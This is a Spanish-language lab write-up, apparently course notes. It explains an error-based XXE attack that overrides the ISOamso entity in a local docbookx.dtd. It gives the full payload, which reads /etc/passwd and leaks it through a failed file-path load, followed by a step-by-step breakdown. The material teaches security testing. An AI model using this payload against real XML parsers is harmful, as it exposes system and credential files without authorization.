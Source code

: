 En esta clase, continuamos con el mismo laboratorio anterior, en el que reutilizamos un DTD local del sistema para realizar un ataque XXE. En esta segunda parte, terminamos de afinar la carga útil que redefine una entidad del archivo ‘**docbookx.dtd**‘ y genera un error controlado que nos permite exfiltrar el contenido del archivo /etc/passwd.

El objetivo es que, al provocar este error, el mensaje resultante contenga el contenido del archivo, lo cual permite resolver el laboratorio sin necesidad de respuestas visibles ni conexiones externas. Esta técnica es especialmente útil en entornos restringidos donde no es posible interactuar con servidores externos.
Solucion
siguiendo con la solucion vamos a  construir un payload
payload (<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>)
Que hace ?
### Paso a paso

1. **`<!DOCTYPE message [...]>`**  
    Se declara un tipo de documento con una definición interna de entidades.
    
2. **`<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`**  
    Se intenta cargar una DTD externa (local en el sistema) para expandir nuevas entidades. En este caso, `docbookx.dtd`, que se supone debe incluir una entidad llamada `ISOamso`.
    
3. **`<!ENTITY % ISOamso ' ... '>`**  
    Si `docbookx.dtd` define `%ISOamso`, lo redefine con un nuevo contenido (es un tipo de _entity override_).
    
4. **Dentro del redefinido `ISOamso`**:
    
    xml
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;`
    
    - `%file` carga el archivo `/etc/passwd`.
        
    - `%eval` crea una entidad `%error` que intenta cargar un archivo inexistente con el contenido de `%file` como parte de la ruta.
        
    - `%eval;` y `%error;` expanden esas entidades.
### 🎯 Objetivo final

El objetivo de este payload es forzar al parser XML a:

- **Leer `/etc/passwd`.**
    
- **Inyectar su contenido como parte de una URL**, causando un error de carga en `file:///nonexistent/<contenido_de_passwd>`, lo cual puede provocar que el contenido del archivo aparezca en logs o mensajes de error, revelando información sensible.

y este codigo lo injectamos y con esto leemos el archivo etc/passwd
![Pasted image 20250802192652.png](imagenes/Pasted image 20250802192652.png)
